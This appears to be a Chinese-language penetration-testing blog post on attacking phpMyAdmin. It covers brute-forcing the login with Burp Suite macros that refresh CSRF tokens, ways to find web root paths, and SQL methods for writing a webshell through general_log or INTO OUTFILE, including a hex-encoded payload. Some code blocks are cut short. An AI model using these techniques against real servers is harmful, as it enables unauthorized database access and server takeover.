

口令爆破
遇到的问题
在利用Burpsuite进行对PHPmyadmin的登录密码的爆破时，发现针对不同版本的PHPMyadmin:
- 高版本的PHPmyadmin（我现在测试的是4.8.5版本），登录方式变成了session，同时需要验证token登录，用简单的Burpsuite Intruder功能无法进行爆破。
- 低版本的PHPMyadmin (在PHPStudy中测试)中，登录方式没有session，然而依然需要验证token，如果不单独设置token，爆破结果就会出现所有结果都是302跳转，这里需要注意。
网上找了集中解决方案：
用PHPmyadmin爆破工具
不开源，不一定安全Python脚本
功能简单，但是实现多线程比较麻烦国外论坛中的解决方案，利用宏（Macro）设置Burpsuite进行爆破
过程稍微复杂，但是配合Burpsuite灵活设置，我认为这个方法在实战中比较灵活关闭令牌检查:
在libraries/common.inc.php中禁用令牌1
$token_mismatch=false;
要是能关闭，我还爆破干什么…
本文主要介绍基于宏(Macro)的Burpsuite爆破方法。
Burpsuite口令爆破
爆破思路
- 首先利用GET/POST请求获取响应中的
Token - 在POST请求中，设置
token和session参数，再次提交请求。 - 在Intruder的Sniper每次操作中重复以上操作。
第一步：录制宏
通过标签Project Options -> Sessions找到Session设置标签，在Session设置界面中添加宏:

在Macro Recorder界面，从HTTP请求历史记录中选择相应的请求。这里我提交了两次登录请求(用户名密码任意)。
两次都是POST，需要从第一次请求的响应中获取token，第一次是GET请求也行，但是由于这里网页登录界面只提交一次POST请求，所以就没有做其他改变。
如果历史记录中没有请求，可以点击右上角Intercept开关按钮，关闭代理截断，然后再在浏览器中执行操作。
之后进入宏编辑界面，选择第一个请求后，点击右侧的Configure item进入下一步测试。
在第一个请求编辑界面中，点击下方Add按钮添加自定义参数。
新建token参数，在response中匹配token的值，点击OK。

回到宏编辑界面，选择第二个请求进行编辑。
进入第二个请求的参数编辑页面，首先在参数列表中，设置token参数的方式为继承自之前的响应Derive from prior response，选择Response 1。之后再点击Add添加新的自定义参数。
由于set_session参数的值每次都和Set-Cookie中phpMyAdmin的值一样，直接匹配就可以。
添加完成后点击OK退回到原来的Session设置界面。这里可以给新建的宏改个名字，我就不改了（懒癌晚期）。
第二步：添加会话处理规则
在Session设置界面，点击添加新的Session处理规则。
可以随便写一下规则描述，在Run Actions里添加动作，选择运行宏Run a macro
动作编辑中，选择刚才录制的宏，选择只更新指定参数，输入参数名称token和set_session，点击确定。
完成编辑后，回到Session编辑页面，设置作用域Scope。
完成上述操作后，新规则完成添加。
第三步：密码爆破
回到Intruder界面，把密码作为变量（假定已知用户名为root），其他不用改变。(也可以先在Repeater中验证一下token和session参数有没有跟着改变)
直接进行爆破，结果中302跳转，表示密码爆破成功。
Burpsuite跟随302跳转
如果遇到即使有302跳转页面也不好判断密码成功的情况，可以在Intruder的设置页面，设置Burpsuite跟随重定向，跳转到新的页面来判断是否密码正确。
Python小工具
自己写了个小工具，比较简单，可以参考参考。
远程代码执行等漏洞
关于phpMyAdmin 4.8.x LFI to RCE的一些分享
PHPMyadmin万能密码Bypass
Getshell
物理路径获取
报错
- 网站代码问题报错: 一般就是加
'等特殊字符 - 解析器(Web容器、中间件)报错: 如 IIS7.5，一般就是加一些不存在的目录名字
- Google爆路径: 结合关键字和
site语法搜索出错⻚面的网⻚快照，常⻅关键字有warning和fatal error- 注意，如果目标站点 是二级域名，
site接的是其对应的顶级域名，这样得到的信息要多得多。 Site:xxx.edu.tw warningSite:xxx.com.tw "fatal error"
- 注意，如果目标站点 是二级域名，
根据正常的安装文件猜
例如PHPstudy默认目录 (c:/phpStudy/phpstudy/PHPTutorial/WWW/)。
读取解析器的配置文件
假设某种情况下，我们得知目标是用的phpstudy，可是不在默认的路径，进入PHPMyadmin后，我们就可以读取路径 select @@basedir ，得到路径后，推测网站路径。
旁站报错
其他信息
- phpinfo⻚面
- 网站源码备份
通过日志拿shell
原理，phpmyadmin有一个记录日志的文件，但是一般情况下会关闭，开启日志记录，然后设置日志记录名称为.php，随便执行sql语句，只要包括一句话木⻢就会被写入到日志中去，然后就可以连接getshell。
1 | set global general_log='on' #首先设置为on |
导出拿shell
正常导出拿shell
1 | # 方法一 |
创建表导出
1 | CREATE TABLE a (cmd text NOT NULL); |
猥琐型导出
1 | select * from admin into outfile "x:\\wwwroot\\sx.php" LINES STARTING BY 0x3C3F70687020706870696E666F28293F3E |
写完语句，要用hackbar的urlencode编码一下，不然很大几率是不成功的哟。这个可以在基于MySQL的报错注入中 写webshell。
1 | 0x3C3F70687020706870696E666F28293F3E= phpinfo() |
原理:
LINES STARTING BY‘字符串’:设置每行数据开头的字符，可以为单个或多个字符。默认情况下不使用任何字符。LINES TERMINATED BY‘’字符串’:设置每行数据结尾的字符，可以为单个或多个字符。默认值是“\n”。
参考链接
使用Burp Suite 宏自动化处理 Session 会话